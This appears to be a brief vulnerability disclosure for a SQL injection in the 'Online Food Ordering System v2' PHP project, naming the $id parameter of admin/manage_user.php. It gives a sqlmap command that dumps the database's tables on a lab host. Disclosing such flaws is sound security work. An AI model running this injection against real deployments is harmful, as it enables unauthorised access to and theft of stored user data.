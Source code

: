 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16022/online-food-ordering-system-v2-using-php8-and-mysql-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/212478563-258363e0-0666-45bc-b80b-de23e2fd1ebe.png)
exp
sqlmap.py -u "http://192.168.249.88/php-fos-db/admin/manage_user.php?id=1" -D fos_db --tables
![image](https://user-images.githubusercontent.com/30823782/212478593-f71cbe6e-37bb-4c2d-8a95-26e1ce7d72f8.png)

